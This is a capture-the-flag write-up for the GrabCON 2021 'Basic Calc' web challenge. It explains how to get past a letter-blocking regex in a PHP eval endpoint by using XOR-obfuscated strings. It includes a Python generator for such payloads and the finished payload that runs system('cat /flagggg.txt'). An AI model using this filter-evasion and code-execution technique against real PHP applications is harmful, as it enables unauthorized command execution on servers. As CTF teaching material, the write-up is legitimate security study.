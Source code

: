 # ## Basic Calc
## Description

Ever used calc based on php?
## Solution
First we open that web page
![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_1.jpg)
Look at the code, we need to bypass the condition that not match regex : ``[A-Za-z`]`` . Since ``eval — Evaluate a string as PHP code``, we can inject a strings to become a code execution.

To bypass input above, we use a `XOR` technique. For example :
```php
A XOR B = C
B XOR C = D

# we can try in php
# For example:
<?php
 echo ('3'^'@'); # output = s
 echo ('9'^'@'); # output = y
 echo ('3'^'@'); # output = s
 echo ('4'^'@'); # output = t
 echo ('8'^']').('2'^'_'); # concat strings

 #ouput = system
?>
```
So how can we know that output? So we decide to create a python script to convert ``strings to XOR code``
or ``generate a xor code from strings``.

```python
# except reqular expression : A-Za-z`
# php print xor example : echo ("A"^"B")
# system execute example:
# <?php
# echo ("system(ls -la)"); #it will execute as strings
# echo ("system")("ls -la"); #it will execute as symbols #magic
# ?>

string_code = ['system','cat /flagggg.txt']
obfuscated_code = ""
charset = "1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"

for code in string_code:
    obfuscated = ""
    for i in code:
        is_found_obfuscated = False
        for j in charset:
            for k in charset:
                if ord(j)^ord(k) == ord(i):
                    is_found_obfuscated = True
                    obfuscated += ".('%s'^'%s')" % (j, k)
                    #print("XOR ="+chr(ord(j)^ord(k)))
                if is_found_obfuscated:
                    break
            if is_found_obfuscated:
                break
        if not is_found_obfuscated:
            obfuscated += ".'%s'" % i
    #print("(%s) = (%s)" % (code, obfuscated[1:]))
    obfuscated_code += "(%s)" % obfuscated[1:]
print(''.join(["(\"%s\")" % i for i in string_code]) + '=' + obfuscated_code)
```
Explain code above:

 1. suppose flagggg.txt location is at ``/`` directory. So we want php to execute code ``system("cat /flagggg.txt"``
 2. list all the chars that not match the regex. For example:``charset ="1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"``
 3. Since ``echo ("system(ls -la)");`` will execute as strings but ``echo ("system")("ls -la");`` will execute as symbols, so we need to seperate them. In python script above we convert them to a list which we store in `string_code` variable.
 4. looping to find ``XOR code`` of each chars that we compared
 5. print all ``XOR code`` that equal the chars in each of index `string_code` variable

```python
Ouput:
("system")("cat /flagggg.txt") = (('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('2'^'_'))(('8'^'[').('!'^'@').('4'^'@').('^'^'~').'/'.('8'^'^').('1'^']').('!'^'@').('8'^'_').('8'^'_').('8'^'_').('8'^'_').'.'.('4'^'@').('8'^'@').('4'^'@'))
```

So now go back to the web page and try to input.
![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_3.jpg)
We got flag!

